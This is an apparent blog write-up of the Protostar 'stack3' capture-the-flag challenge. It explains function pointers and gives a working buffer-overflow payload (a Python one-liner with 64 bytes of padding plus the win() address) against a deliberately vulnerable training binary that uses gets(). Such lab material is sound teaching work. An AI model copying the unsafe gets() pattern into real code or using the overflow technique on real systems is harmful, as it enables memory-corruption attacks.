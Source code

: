 ```yaml
---
layout: post
title: Protostar Writeup - stack3
updated: 2018-07-28 23:45
tags: [ctf, binary exploit, protostar, tech]
---
```


## Protostar - stack3

Moving on to the next challenge. Things get pretty interesting over here. Our task is to somehow call the "win()" method. Again as you can see this is actually a buffer overflow attack.
Here's the code, let's take a closer look at it.

{% highlight c%}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
{% endhighlight %}

We're dealing with function pointers in this case, which we get to know from "int (*fp)()".
A pointer is a special kind of variable which 'points' to a particular memory location. If we have to access the contents at that location we 'dereference' it using the "******" operator.
So you can think of it in this way, if I declare a pointer "int *a". This tells me that `a` will give me the memory location and `*a` will actually give me the contents of that memory location.
A function pointer is the same, it isn't a true function in it's true sense. The function pointer just points to executable code, where as a normal pointer points to certain data.
Now that we know that a pointer 'points' to a certain location, we can exploit this.

### The solution

This solution to this challenge is pretty simple once you understand how function pointers work. We somehow have to change the value of `fp` and make it point to the location of the "win()" method.
Now the question arises... how the heck do I get the address of the "win()" method? If we take a look at the hints on the site we see two ways. One is gdb and the other objdump. I'll demonstrate both the ways.

First let's take a look at the address of "win()" using objdump.

{% highlight shell %}
$ objdump -d stack3 | grep win
08048424 <win>:
{% endhighlight %}

We get the address of the "win()" method which is "0x08048424". Now let's do the same, but this time using gdb.

{% highlight shell %}
$ gdb stack3
(gdb) p win
$1 = {void (void)} 0x8048424 <win>
{% endhighlight %}
This is how you get the address of the function using gdb.

Now that we have our address, let's exploit the binary. Since we know the "buffer" variable is of 64 bytes, we add that much padding.
Also, keep in mind that we're working on a little endian architecture so we write the address accordingly.

{% highlight shell %}
$ python -c "print 'A'*64 + '\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
{% endhighlight %}

Pwned! Nice and simple, considering that we learn't a thing or two about function pointers, this challenge wasn't that boring.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
[Function Pointers](https://en.wikipedia.org/wiki/Function_pointer)
